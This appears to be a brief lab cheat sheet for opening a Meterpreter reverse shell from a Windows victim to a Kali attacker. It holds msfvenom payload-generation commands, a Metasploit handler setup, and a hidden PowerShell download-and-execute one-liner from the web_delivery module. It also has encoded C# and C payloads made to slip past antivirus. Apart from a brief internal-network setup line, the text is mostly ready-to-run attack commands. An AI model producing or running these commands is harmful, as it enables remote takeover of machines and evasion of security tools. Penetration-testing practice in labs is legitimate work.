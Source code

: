 # Opening a revershell from windows to kali

Confingure both machines to be in the same internal network and able to ping each other.

Generate the payload using msfvenon.  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Disbale antirvirus and transfer the payload to the victim machine.

Set up a reverse shell handler in kali.  
```
> use exploit/multi/handler  
> set payload windows/meterpreter/reverse_tcp
> set lhost=<IP>
> set lport=<PORT>
> run
```

Run the exe in victim machine and wait for connection.


# Exploiting via web delivery

In msfconsole,
```
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
```

set lhost and lport

in windows cmd with antivirus disabled,
```
powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $c.downloadstring('http://<ip>:<port>/<uri>');
```
# generating a C# payload with XOR encoding

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f csharp -e x64/xor_dynamic
```

# generating a x86 c++ payload with shikata_ga_nai encoder.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=4444 -e x86/shikata_ga_nai -i 8 -f c > shell.c
```
